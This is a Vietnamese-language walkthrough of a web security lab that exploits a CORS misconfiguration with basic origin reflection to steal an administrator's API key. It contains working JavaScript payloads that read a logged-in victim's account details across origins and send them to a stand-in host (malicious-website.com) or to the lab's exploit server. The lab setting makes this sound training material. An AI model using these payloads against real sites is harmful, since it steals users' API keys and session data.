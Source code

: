 ### Lab: CORS vulnerability with basic origin reflection

Bài lab đã mô tả là trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các nguồn gốc.

Để giải quyết bài lab, hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. 
Lab được giải quyết khi bạn gửi thành công khóa API của quản trị viên.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter

Truy cập bài lab và chúng ta thấy được 1 blog và có phần login.

Theo như lab thì chúng ta login vào account được cấp từ trước và thấy được APIKey, đây chính là mục tiêu của chúng ta. Bắt lại request mà sẽ phản hồi về APIKey.


Chuyển request sang repeater và chèn thêm dòng *Origin: https://example.com* vào request và send thì chúng ta sẽ thấy phản hồi *Access-Control-Allow-Origin* như mô tả vì trang web này tin cậy mọi nguồn gốc, điều đó dẫn đến bất kỳ trang web nào cũng có thể lấy được thông tin từ nó. Để lấy được apikey chúng ta có payload theo form sau : 
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```

Và từ đó chúng ta có được payload để sent vào exploit server như sau : 


  ```
  <script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://ac621fa31ffe7a398004558a00e900a1.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

Sau khi Store payload và Deliver to Victim thì chúng ta AccessLog để lấy dữ liệu từ website chúng ta muốn và in ra màn hình như sau : 



Chúng ta nhận thấy dòng log?key thì coppy và quan phần Decoder của BurpSuite để decode, chọn option url và chúng ta lấy được Apikey => submit để solve bài lab.

